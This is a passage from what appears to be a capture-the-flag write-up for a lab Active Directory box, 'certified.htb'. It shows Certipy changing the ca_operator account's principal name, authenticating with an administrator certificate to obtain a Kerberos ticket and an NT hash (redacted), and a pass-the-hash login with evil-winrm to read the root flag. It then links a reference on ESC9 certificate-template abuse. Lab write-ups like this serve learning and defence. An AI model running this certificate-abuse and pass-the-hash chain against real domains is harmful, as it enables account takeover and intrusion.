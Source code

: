 [*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'


$ certipy-ad auth -pfx 'administrator.pfx' -domain "certified.htb"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': a<...>e:0<...>4
{{< /highlight >}}

With this hash, the root flag can be retrieved using evil-winrm.
{{< highlight go "hl_lines=1" >}}
$ evil-winrm -i 10.10.11.41 -u Administrator -H 0<...>4 
<...>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   2:54 PM             34 root.txt
{{< /highlight >}}

## Resources
> [thehacker.recipes - certificate templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) 